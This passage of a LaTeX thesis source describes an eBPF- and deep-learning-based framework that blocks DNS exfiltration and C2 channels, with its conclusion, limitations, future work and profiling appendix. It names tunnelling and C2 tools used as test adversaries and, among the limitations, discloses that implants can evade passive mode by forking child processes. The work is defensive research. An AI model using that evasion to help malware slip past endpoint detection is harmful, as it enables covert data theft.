  
\includegraphics[width=0.8\textwidth]{UWThesis/images/results/tcp/latency_metrics_onnx_tcp.png}
  \caption{DNS Server Latency for 10k DNS req/sec over TCP}
  \label{fig:throughput_onnx_tcp}
\end{figure}



\begin{figure}[H]
  
\includegraphics[width=1\textwidth]{UWThesis/images/results/dns_rpz_blacklist.png}
\caption{Blacklisted domains in RPZ zone on DNS server}
  \label{fig:dns_rpz}
\end{figure}





% Data plane:
% 1. Model Metrics 
% 2. Threougput metrcis 
%     Active phase (en / dis) (gld / inferencing need) (covers latency)
%     Passive Mode (en) (inferencing) (covers latency)
%     Kernel eBPF events / I/O usage
%     node agent userspace memory usage
%     Data loss prior removal (line chart)
%     Effectiveness over all tools  (active)
%         (dnscat2, sliver, iodine, DET, nuages)
%     Data plane promethesu metric dashboards

% Control plane:
% 1. 

% Distributed infra
% 1. Security over TCP , blacklist domain 
    

\chapter{Conclusion}
This chapter concludes the project by summarizing its contents and outlining future directions.

\section{Summary}
This security framework significantly advances the state-of-the-art by developing a novel architecture to prevent data exfiltration over DNS, directly addressing the critical gaps left by traditional approaches. The existing literature and solutions for DNS exfiltration prevention remain largely stagnant, centered on centralized detection and userspace anomaly detection systems or proxy DPI, which are inherently inadequate and lack the strength to stop sophisticated DNS-based exfiltration, especially those leveraging advanced C2 attack vectors. In contrast, this framework introduces a new paradigm: kernel-enforced endpoint security. It acts as a privileged layer beneath existing endpoint security solutions, enabling strict enforcement inside the operating system. Using eBPF to reprogram core kernel subsystems, paired with enhanced deep learning–based inference, this system-wide enforcement demonstrates comprehensive defensive strength—capable of detecting, stopping, and killing the most advanced DNS C2 implants in real time, even against sophisticated attack vectors modeled by top-tier adversary emulation frameworks.
Furthermore, by combining a layered approach with system security embedded with an endpoint-centric design, this architecture elevates endpoint defense beyond the limitations of userspace alone, providing detailed visibility into malicious activity, and rapid response to malicious implants. The following points summarize the strengths of the security framework.

% This research and implementation has been recognized by the premier Linux kernel community, core kernel maintainers, security researchers for innovations that have been presented at the most selective and prestigious kernel networking and security conferences and security briefings. In addition, this work is scheduled to be presented at leading kernel security conferences, showcasing innovations that advance DNS security to prevent data exfiltration and C2 activity, with a focus on mitigating emerging attack vectors that exploit DNS.

\begin{itemize}[nosep]
    \item \textbf{Instant DNS C2 Disruption} – Immediately blocks DNS-based command-and-control channels upon initiation, stopping covert communication at the source.

    \item \textbf{Active Implant Process Detection \& Termination} – Detects malicious processes that use DNS for exfiltration and terminates them in real time.

    \item \textbf{Tunnel and Encapsulation-Aware Defense} – Eliminates DNS tunnels, protocol-agnostic payload encapsulation, encapsulated traffic in the kernel, including DNS overlay over random UDP ports.

    \item \textbf{Prevents Sophisticated C2 over DNS} – Effectively stops advanced C2 command attacks - including, but not limited to, remote code execution, reverse tunnels, protocol tunneling, port forwarding, remote file compromise, remote process side channeling, and C2 multiplayer modes.

    \item \textbf{DGA Mitigation with dynamic L3 kernel Network Policies} – Dynamically blacklists  domains, reprogram agents in data plane, and enforces layer 3 network policies for cross-protocol coordination.

    \item \textbf{Rich metrics and system observability} – Exports rich metrics to Prometheus, enabling visibility across scaled data planes and providing robust system-level observability at each endpoint.

    \item \textbf{Horizontal Scalability} – Supports horizontal scalability as in production cloud environments 

    % \item \textbf{Kernel-Level Endpoint Attribution} – Provides fine-grained OS and process-level insight, attributing DNS exfiltration attempts to specific binaries and users.
\end{itemize}

\section*{Limitations and Future Work}

\subsection*{Limitations}

\begin{itemize}[nosep]
  % \item \textbf{Limited Protocol Coverage:} Current implementation focuses primarily on DNS exfiltration; while not on DNS-over-HTTP, DoT (DNS-over-TLS), and encrypted channels require additional enforcement mechanisms.

    \item \textbf{Increased Latency for Active mode of Agent}
     While Active Mode introduces some latency due to live redirection of DNS over UDP traffic from the kernel’s TC eBPF program to userspace for deep scanning, this overhead is still significantly lower than remote proxy-based DPI solutions. If latency is cocnern at endpoint kernel feature values can be eased for kernel eBPF programs to perform less aggressive DPI.

    \item \textbf{Potential Security Bypass for Passive mode of Agent}
    In passive mode, since the eBPF agent hunts for malicious activity tied to a process and kills post exceeding threshold, malicious process can bypass security by forking child processes to prevent it the agent must track malicious activity to parent process from kernel task\_struct rather over process id.

    \item \textbf{High Accuracy and Latency in Deep Learning Model Training and Inference:} Although the model achieved high precision with few false positives, its performance could be further improved by incorporating more diverse poisoned samples to address unseen payload obfuscation techniques. Furthermore, the use of UNIX socket-based IPC, combined with Python's limitations in true concurrency, reduced inference throughput and increased latency.
  % \item \textbf{Partial DNS Parsing:} The DNS parser implemented in kernel currently covers only key sections of the protocol. Further parsing of DNS message structure (e.g., full RR parsing, EDNS, DNSSEC) is pending.

  \item \textbf{Absence of Encrypted Exfiltration Prevention:} The framework does not support the prevention of exfiltration through encrypted DNS channels such as DoT or DoH.

  \item \textbf{Absence of Encrypted Encapsulated Tunnels:} The framework does not support prevention of exfiltration over encrypted tunnels relying on kernel \texttt{xfrm} such as Wireguard, OpenVPN, IPSec. 

  % \item \textbf{Basic Throughput Control:} Egress rate limiting is not yet adaptive to prevent mass throughput or volume exfiltration within the TC kernel. 
\end{itemize}

\subsection*{Future Work}

\begin{itemize}[itemsep=1pt,parsep=0pt]
  \item \textbf{Extend Support for DNS-over-TCP and Encrypted Tunnels:} Implement detection and blocking for exfiltration of DNS over TCP in kernel eBPF  programs replicating TCP state machine coupled with envoy as an L7 userspace proxy for analysis

  \item \textbf{Migration away from Python inference server:} Migrate the Python ONNX inference to Rust, with a wasm (web assembly) module for faster inferencing compared to interpreted languages.

  \item \textbf{Add In-Kernel TLS Fingerprinting:} Integrate TLS fingerprinting (e.g. JA3 / JA4) using eBPF to detect encrypted DNS exfiltration over TLS or WireGuard tunnels, supporting userspace deep learning models with detailed system-level metrics for dynamic security policy enforcement by kernel eBPF programs.

  % \item \textbf{Enhance DNS Protocol Parsing:} Expand in-kernel DNS parser to cover full protocol depth, including additional sections and response types.

  % \item \textbf{DPI Optimization Using Mathematical Methods:} Improve efficiency of in-kernel DPI using optimized computation strategies like Newton-Raphson approximations for better performance under high load.

  % \item \textbf{XDP-Based Flood Prevention:} Introduce XDP ingress filtering inside kernel to mitigate NXDOMAIN-based DNS water torture and DNS amplification attacks on the endpoint.

  \item \textbf{Rate-Limiting Based on Volume and Throughput:} Integrate egress DNS rate limit for mass volume breaches using EDT\_BPF and HTB QDISC.

  % \item \textbf{Layered Cloud and Kubernetes Defense:} Deploy policy enforcement layers across Kubernetes orchestrated environments (L3/L7 filtering via CNI to drop in userspace) and public cloud cross protocol access control list defending all nodes behind firewall.

  % \item \textbf{XDR/EDR Telemetry Integration:} Export metrics to enterprise security platforms for enriched threat correlation, visibility, and response automation.
\end{itemize}


 
\bibliographystyle{unsrtnat}
\bibliography{UWThesis/uwthesis}



\chapter{Appendices}

This chapter outlines additional security mechanisms designed to protect the Linux kernel from malicious eBPF programs, as well as enhanced observability features employed by the eBPF agents in the data plane. It also describes the DGA used to simulate the generation of large-scale malicious domains for DNS exfiltration attack testing.
The complete security framework codebase—including all configuration files and documentation—is publicly available at \href{https://github.com/Synarcs/DNSObelisk}{GitHub}. It is currently licensed under AGPLv3 license.
The repository contains all components of the system, covering both kernel and userspace implementations of the eBPF agents in the data and controller servers in control planes. It also provides Docker deployment manifests for setting up Kafka brokers and scripts to deploy PowerDNS. These scripts configure all nodes on a distributed testbed to use PowerDNS as their default resolver. Alternatively, the entire infrastructure—including PowerDNS and Kafka—can be deployed on any cloud provider, depending on operational requirements.
Detailed setup instructions for each component of the security framework are provided in the accompanying docs directory.

\section{Appendix A}
This section focuses on providing additional security details implemented within the kernel to protect the kernel from malicious eBPF agents and system profiling of agents in data plane.

\subsection{Kernel eBPF programs and userspace agent profiling}
% \hyperref[fig:c1]{Figure 7.1} illustrates additional internal implementation details, specifically the raw parsing of DNS questions from SKB through eBPF over kernel TC, using custom DNS protocol header structures defined within the eBPF TC kernel programs, as shown in \hyperref[fig:c2]{Figure 7.2}.
Given the intensive DNS parsing and enforcement logic implemented in the kernel TC layer, a comprehensive benchmarking was performed to evaluate its impact on the performance of benign traffic. The documented source code can be found in the kernel/ directory, which includes logic to classify DNS payloads at line rate. Performance evaluation leveraged in-kernel perf instrumentation and system profiling tools.
The eBPF program was executed concurrently across multiple CPU cores and was monitored using Netflix’s bpftop tool. Under a high-throughput workload of approximately 100,000 DNS requests per second, kernel CPU usage peaked at 4\% across eight cores, with a minimum of 2\%. The program consistently maintained processing rates of up to 17,063 events per second - excluding hardware interrupt and soft IRQ overhead - demonstrating the efficiency of the eBPF logic attached to the TC kernel. \hyperref[fig:c3]{Figure 7.2} illustrates the profiling results.
In addition to kernel profiling, the eBPF userspace agent responsible for traffic handling was profiled using Go's pprof tool. Analysis of CPU-intensive function call stacks revealed that approximately 75\% of the agent’s CPU usage is spent on BPF-related syscalls, reflecting its reliance on frequent kernel interactions to access and update the internals of the eBPF program, particularly eBPF maps. \hyperref[fig:c4]{Figure 7.1} presents the agent’s flame graph.

% \begin{figure}
%     \centering
%   
\includegraphics[width=\linewidth]{UWThesis/images/code/c1.png}
%   \caption{DNS Protocol custom Header definitions and parsing in kernel}
%   \label{fig:c1}
% \end{figure}


% \begin{figure}[H]
%     \centering
%     
\includegraphics[width=\linewidth]{UWThesis/images/code/dns_parse.png}
%     \caption{Raw parsing DNS questions inside kernel TC eBPF filter}
%     \label{fig:c2}
% \end{figure}



\begin{figure}[htbp]
    \centering
    
\includegraphics[width=\linewidth]{UWThesis/images/results/pprof/cpu_flame_graph.png}
    \caption{eBPF Agent: Flame Graph}
    \label{fig:c4}
\end{figure}

\begin{figure}[htbp]
    \centering
